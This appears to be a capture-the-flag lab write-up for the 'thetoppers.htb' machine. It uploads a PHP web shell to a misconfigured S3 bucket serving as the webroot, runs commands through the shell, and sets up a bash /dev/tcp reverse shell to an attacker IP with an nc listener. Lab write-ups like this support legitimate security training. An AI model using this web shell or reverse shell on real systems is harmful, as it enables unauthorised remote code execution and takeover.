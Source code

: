 **Findings**
>We see the files `index.php` , `.htaccess` and a directory called `images` in the specified bucket. It seems like this is the webroot of the website running on port 80 . So the Apache server is using this S3 bucket as storage.

>`awscli` has got another feature that allows us to copy files to a remote bucket. We already know that the website is using PHP. Thus, we can try uploading a PHP shell file to the `S3` bucket and since it's uploaded to the webroot directory we can visit this webpage in the browser, which will, in turn, execute this file and we  will achieve remote code execution

We can use the following PHP one-liner which uses the `system()` function which takes the URL parameter `cmd` as an input and executes it as a system command.

Create Payload to get shelll

Command 
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Use awscli to copy payload in to the S3 bucket.

Command
```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

Result
```bash
upload: ./shell.php to s3://thetoppers.htb/shell.php  
```

This paylod will allow you to us `cmd` to execute commands in the browser.

Add `cmd=<command>` 

Run id Command to get user and groups and enumerate further

Command
```bash
http://thetoppers.htb/shell.php?cmd=id
```

Result
```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data
```

Create a shell.sh file that contains
```bash
#!bin/bash
bash -i >& /dev/tcp/10.10.15.149/1337 0>&1 
```

Open a ncat listener on port 1337

Command 
```bash
nc -nvlp 1337
```
